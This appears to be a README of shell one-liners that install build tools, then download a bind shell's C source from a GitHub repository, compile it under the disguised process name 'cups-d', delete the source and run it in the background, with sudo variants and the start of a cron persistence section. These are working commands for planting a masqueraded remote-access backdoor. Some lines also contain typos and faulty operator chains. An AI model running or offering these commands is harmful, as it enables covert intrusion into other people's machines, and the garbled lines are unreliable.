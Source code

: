 # One-liners:
## BIND / WGET / GCC
### SETUP(as root):
```console
apt-get install --yes wget gcc binutils || yum -y install wget gcc binutils || zypper -l --no-confirm install wget gcc binutils || pacman --noconfirm -Sy wget gcc binutils
```
### SETUP(via sudo):
```console
sudo apt-get install --yes wget gcc binutils || sudo yum -y install wget gcc bitutils || sudo zypper -l --no-confirm install wget gcc binutils || sudo pacman --noconfirm -Sy wget gcc binutils
```
### RUN(current user):
```console
wget -O bind.c https://github.com/ScorpionInc/C-Sandbox/raw/main/CBindShell/bind.c && gcc ./bind.c -o ./cups-d; rm -f ./bind.c 2>/dev/null; nohup ./cups-d & && disown 2>/dev/null
```
### RUN(via sudo):
```console
wget -O bind.c https://github.com/ScorpionInc/C-Sandbox/raw/main/CBindShell/bind.c && gcc ./bind.c -o ./cups-d; rm -f ./bind.c 2>/dev/null; sudo nohup sudo ./cups-d & && disown 2>/dev/null
```

## BIND / Curl / GCC
### SETUP(as root):
```console
apt-get install --yes curl gcc binutils || yum -y install curl gcc binutils || zypper -l --no-confirm install curl gcc binutils || pacman --noconfirm -Sy curl gcc binutils
```
### SETUP(via sudo):
```console
sudo apt-get install --yes curl gcc binutils || sudo yum -y install curl gcc binutils || sudo zypper -l --no-confirm install curl gcc binutils || sudo pacman --noconfirm -Sy curl gcc binutils
```
### RUN(current user):
```console
curl -o bind.c https://github.com/ScorpionInc/C-Sandbox/raw/main/CBindShell/bind.c && gcc ./bind.c -o ./cups-d || rm -f ./bind.c 2>/dev/null || nohup ./cups-d & || disown 2>/dev/null
```
### RUN(via sudo):
```console
curl -o bind.c https://github.com/ScorpionInc/C-Sandbox/raw/main/CBindShell/bind.c && gcc ./bind.c -o ./cups-d || rm -f ./bind.c 2>/dev/null || sudo nohup sudo ./cups-d & || disown 2>/dev/null
```
## BIND / Git / GCC
### SETUP(as root):
```console
apt-get install –yes git gcc binutils || yum install git gcc binutils || zypper -l --no-confirm install git gcc binutils || pacman --noconfirm -Sy git gcc binutils
```
### SETUP(via sudo):
```console
sudo apt-get install –yes git gcc binutils || sudo yum install git gcc binutils || sudo zypper -l --no-confirm install git gcc binutils || sudo pacman --noconfirm -Sy git gcc binutils
```
### RUN(current user):
```console
git clone https://github.com/ScorpionInc/C-Sandbox.git && cp ./C-Sandbox/CBindShell/bind.c ./bind.c; rm -rf ./C-Sandbox/ 2>/dev/null; gcc ./bind.c -o ./cups-d && nohup ./cups-d & || disown 2>/dev/null
```
### RUN(via sudo):
```console
git clone https://github.com/ScorpionInc/C-Sandbox.git && cp ./C-Sandbox/CBindShell/bind.c ./bind.c; rm -rf ./C-Sandbox/ 2>/dev/null; gcc ./bind.c -o ./cups-d && sudo nohup sudo ./cups-d & || disown 2>/dev/null
```

## BIND-CRON / WGet / GCC
### SETUP(as root):
```console
apt-get install –yes wget gcc binutils cron
```
### SETUP(via sudo):
```console
sudo apt-get install –yes wget gcc binutils cron
```

